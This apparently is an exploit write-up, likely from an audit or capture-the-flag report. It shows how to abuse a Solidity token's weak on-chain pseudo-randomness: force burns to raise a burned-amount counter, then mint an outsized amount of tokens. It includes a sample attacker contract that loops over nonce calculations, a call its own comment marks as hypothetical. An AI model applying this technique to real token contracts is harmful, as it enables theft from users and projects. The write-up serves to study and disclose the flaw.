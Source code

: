 
## Exploit Demonstration

### High-Level Steps

1. **Initialize**:  
   - Acquire some LuckyToken and trigger enough transactions (e.g. trivial self-transfers) to increase `txCount` to >10.  
   - This allows the `TeamVault.release()` function to move the big stash of tokens into LockStaking.

2. **Burn Some Vault/LockStaking Tokens**:  
   - By carefully timing transactions or by brute-forcing the nonce calculation, make sure `status = false` triggers on large transfers from the LockStaking (or vault).  
   - Each burn increases `totalAmountBurned` significantly.

3. **Mint for Profit**:  
   - After your burn threshold is sufficiently high, craft a transaction where `status = true` so that your minted tokens `(pendingAmount)` can be huge (since `pendingAmount < totalAmountBurned` is now easy to satisfy).

### Example: On-Chain Nonce Calculation

An attacker contract might look like this:

```solidity
function go(LuckyToken token) public {
    uint256 lastNonce = token.nonce();
    uint256 amt = token.balanceOf(address(this));
    uint256 p = 0;

    while (true) {
        // Hypothetically calls a function that calculates next nonce on-chain
        uint256 nextNonce = token._calculateNonce(
            address(this),
            address(this),
            block.timestamp,
            amt - p,
            lastNonce,
            blockhash(block.number - 1)
        );

        bool status = ((nextNonce % 101) & 1) == 0; 
        if (status) {
            // "Ice" path => attempt mint
            token.transfer(address(this), (amt - p));
            break;
        } else {
            // "Fire" path => effectively burn some fraction
            p += 1;
        }
    }
}
```
